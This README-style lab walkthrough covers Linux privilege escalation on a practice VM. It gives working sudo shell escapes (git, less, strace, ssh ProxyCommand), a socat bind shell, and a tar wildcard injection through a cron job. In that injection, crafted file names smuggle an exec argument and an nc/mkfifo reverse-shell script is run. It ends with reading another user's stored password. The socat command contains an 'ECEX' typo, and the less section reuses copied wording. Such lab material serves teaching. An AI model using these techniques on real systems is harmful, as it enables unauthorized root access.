<h1 style="color:red">#EnterpriseNetworkingSquad</h1>

## Linux VM for Previleges Escalation


This [Ubuntu VM](https://drive.google.com) is created for getting the basic idea of privilege escalation in linux. Here we have misconfigured sudo rights which lead to root privilege escalation. This lab will help us to understand, how certain built-in applications and services if misconfigured, may be abused by an attacker.


<h1></h1>
<h2 style="color:yellow">GIT</h2>

Login with ```bob``` user in VM and take ssh connection of the VM to your base machine. Now just use ```sudo -l``` to list programs which we can execute with the same privileges as root.



Enter ```sudo git help status``` which opens the file in vi mode and since we have run the command with sudo right which means we can get a shell through it. 



Execute ```!bash``` command inside git status file as shown above and you will get a root shell.




<h1></h1>
<h2 style="color:yellow">SOCAT</h2>

For this you have listen in one ssh session using ```socat FILE:`tty`,raw,echo=0 TCP:127.0.0.1:4545``` and have to connect to that listener using ```sudo socat TCP-LISTEN:4545,reuseaddr,fork ECEX:sh,pty,stderr,setsid,sane```.



You will get root privilege shell at listener.




<h1></h1>
<h2 style="color:yellow">STRACE</h2>

Login with ```peter``` user in VM and take ssh connection of the VM to your base machine. Now just use ```sudo -l``` to list programs which we can execute with the same privileges as root.



Execute ```sudo strace -o /dev/null /bin/bash``` command and you will get a root shell.




<h1></h1>
<h2 style="color:yellow">LESS</h2>

Enter ```sudo less /etc/passwd``` (You can open any file) which opens the file in vi mode and since we have run the command with sudo right which means we can get a shell through it. 



Execute ```!bash``` command inside git status file as shown above and you will get a root shell.




<h1></h1>
<h2 style="color:yellow">SSH</h2>

Login with bob user and execute ```sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' temp``` which can get a shell through it.




<h1></h1>
<h2 style="color:yellow">CRONTAB</h2>

Notice the target has scheduled a bash program script for every 1 minute as root.



Observe that every minute the /etc/cron.daily/backup script is executed and this is saving a compressed copy of each users home directories to /etc/backups.



Take ssh connection in other terminal and start listener on specific port.



Execute following commands:

```
bob@ubuntu:~$ echo "mkfifo /tmp/ab; nc 127.0.0.1 4545 0</tmp/ab | /bin/sh > /tmp/ab 2>&1; rm /tmp/ab" > shell.sh
bob@ubuntu:~$ echo "" > "--checkpoint-action=exec=sh shell.sh"
bob@ubuntu:~$ echo "" > --checkpoint=1
```



You got the root shell at the listener.




<h1></h1>
<h2 style="color:yellow">Horizontal Privileges Escalation</h2>

This task is based on the observation. You just need to observe the stored password in home directory of ```susan``` user. Login with ```bob``` user and observe the stored password.




I hope you got the basic idea about privilege escalation. There are more misconfigured programs so you can do practice. You can use ```sudo -l``` to list programs which we can execute with the same privileges as root.

Useful link: [https://gtfobins.github.io/](https://gtfobins.github.io/)
